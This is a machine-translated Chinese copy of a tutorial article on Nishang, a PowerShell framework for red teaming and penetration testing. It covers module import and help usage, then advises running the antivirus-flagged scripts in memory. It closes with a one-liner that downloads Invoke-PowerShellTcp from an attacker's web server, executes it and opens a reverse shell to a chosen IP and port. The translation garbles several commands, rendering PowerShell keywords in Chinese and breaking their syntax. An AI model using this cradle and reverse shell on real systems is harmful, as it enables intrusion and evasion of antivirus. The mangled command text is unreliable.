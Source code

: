 # 霓裳:红队的进攻 PowerShell，渗透测试和进攻安全

> 原文：<https://kalilinuxtutorials.com/nishang/>

[![Nishang : Offensive PowerShell For Red Team, Penetration Testing & Offensive Security](img//21f2d28a04ae4e5430aad7bf42023946.png "Nishang : Offensive PowerShell For Red Team, Penetration Testing & Offensive Security")](https://1.bp.blogspot.com/-xliKR-4Va70/XsjY7ir5C-I/AAAAAAAAGck/L1ypn0Nd5jwfdREnsUqGJStrI77M3FpLQCLcBGAsYHQ/s1600/nishang%25281%2529.png)

Nishang 是一个脚本和有效负载的框架和集合，支持将 PowerShell 用于攻击性安全、渗透测试和 red teaming。Nishang 在渗透测试的所有阶段都是有用的。

**用途**

导入当前 PowerShell 会话中的所有脚本(PowerShell v3 以上)。

PS C:\霓裳>导入-模块。\nishang.psm1

将单独的脚本用于点源。

**PS C:\霓裳>。C:\霓裳\ Gather \ Get-Information . PS1
PS C:\霓裳> Get-Information**

要获得关于任何脚本或函数的帮助，请使用:

**PS C:\霓裳>Get-Help[script name]-full**

请注意，帮助适用于运行脚本后加载的函数，而不是版本 0.3.8 以后的脚本本身。在所有情况下，函数名与脚本名相同。

例如，要查看关于 Get-WLAN-Keys.ps1 的帮助，请使用

**PS C:\霓裳>。C:\ nishang \ Get-WLAN-Keys . PS1
PS C:\ nishang>Get-Help Get-WLAN-Keys-Full**

**反病毒**

霓裳脚本被许多反病毒标记为恶意。目标上的脚本应该在内存中使用，使用 PowerShell 很容易做到这一点。在内存中执行 PowerShell 脚本的两种基本方法:

方法一。使用内存中的下载和执行:使用下面的命令从远程 Shell、meterpreter 本机 shell、web shell 等执行 PowerShell 脚本。以及由其导出的函数。Nishang 中的所有脚本都在当前 PowerShell 会话中导出了一个同名的函数。

powershell iex(新对象网络。WebClient)。download string(' http://<yourwebserver>/Invoke-powershell TCP . PS1 ')；invoke-powershell TCP-Reverse-IP address[IP]-Port[Port no .]</yourwebserver>
